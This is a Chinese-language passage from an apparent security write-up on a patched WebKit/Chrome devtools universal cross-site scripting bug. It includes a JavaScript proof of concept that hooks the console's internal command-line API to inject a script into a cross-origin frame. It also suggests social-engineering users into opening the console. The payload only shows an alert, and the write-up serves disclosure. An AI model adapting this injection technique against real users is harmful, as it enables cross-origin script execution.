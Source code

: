 ## 0x08 通用的跨站脚本攻击

* * *

现在让我们来讨论一下这个已经被修复的漏洞。这个漏洞可以在一些用户交互的基础上将恶意站点的 A 内的脚本或页面植入到站点 B 当中。它的工作原理很简单。当用户审查元素时，它会被加入到历史数组里。用户可以通过 console.$0 来访问它。但是遗憾的是，如果它已经通过别的域名被执行，我们就无法访问它。如果想要真正的利用这个 exploit，我们至少需要用户右键点击这个 iframe，打开控制台并输入命令。

我想会有很多社工性质的方法可以让我们去引导用户去完成这一系列的操作。当然我个人认为最有效的方法就是什么都不要去做，而是等待开发者自己攻击自己。我也做了一个 POC 来证明，这一切的可行性。如果完成上述的操作要求来，不出意外 alert(document.domain)应该会被执行。

```
// On console command run
Object.defineProperty(console, '_commandLineAPI', {
 get: function () {
  // Save a reference to the InjectedScriptHost globally
  window.InjectedScriptHost = arguments.callee.caller.arguments[1];
  // Get the injectedScript object
  window.injectedScript = InjectedScriptHost.functionDetails(arguments.callee.caller.arguments.callee).rawScopes[0].object.injectedScript;
  // Trigger another inspect (not sure why this helps but it does)
  injectedScript._inspect(document.getElementById('hacks'));
  // Keep checking if an element has been inspected every 10th of a second
  var check = function() {
   // Hide any errors on the console to keep people unaware
   try {
    // Get the first inspected object
    var el = injectedScript._commandLineAPIImpl._inspectedObject(1);
    // Loop until no more parents
    while (el.parentNode) { el = el.parentNode; }
    // If the element is not the current page
    if (el.URL !== window.location.href) {
     // Stop checking
     clearInterval(check);
     // Create the script element
     var script = document.createElement('script');
     script.type = 'text/javascript';
     script.innerHTML = "alert(document.domain)";
     // Add the script to the frame
     el.getElementsByTagName('head')[0].appendChild(script);
    }
   } catch (e) {}
  };
  // Return the orginal evaluate function
  return InjectedScriptHost.__proto__.evaluate;
 }
});

```

就如我之前说的那样，这个漏洞已经被 yurys@chromium.org 修补了。如果你对这个漏洞或者补丁感兴趣，可以点击这里[here](http://trac.webkit.org/changeset/138228).
